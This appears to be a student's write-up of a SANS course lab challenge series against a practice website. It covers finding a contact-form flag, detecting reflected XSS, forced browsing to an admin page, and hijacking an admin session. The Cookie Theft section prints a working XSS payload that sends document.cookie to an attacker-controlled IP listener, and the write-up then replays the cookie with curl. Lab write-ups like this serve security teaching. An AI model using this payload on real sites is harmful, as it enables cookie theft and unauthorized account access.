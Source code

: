 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked "Contact" in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-1](https://github.com/user-attachments/assets/554573b6-cf11-4d39-a61c-cf6ef2dabf2f)

![Contact-2](https://github.com/user-attachments/assets/b3b72e0c-c945-4e90-9853-8fc67ccccce5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 

![Vulnerability-Discovery-1](https://github.com/user-attachments/assets/9e6c2acb-21c3-492b-bed5-c3d5f6de6aa3)

Then I tested for a different input based vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 

![Vulnerability-Discovery-2](https://github.com/user-attachments/assets/da88e1ea-a407-428c-8be7-c17f6c381823)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  

![Vulnerability-Discovery-3](https://github.com/user-attachments/assets/5fcfa96a-4913-4b4c-9a2b-12733f806139)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. In Lab 4.4 from the course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/54c44f79-0f51-4ca6-b5c6-1a05b60ffecf)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the admin page output. Scroll down to see the flag. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/374ca600-ede7-44a5-8a2e-c04462682c60)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/391d29fd-1221-4379-9ae1-4cefed9fa3a1)
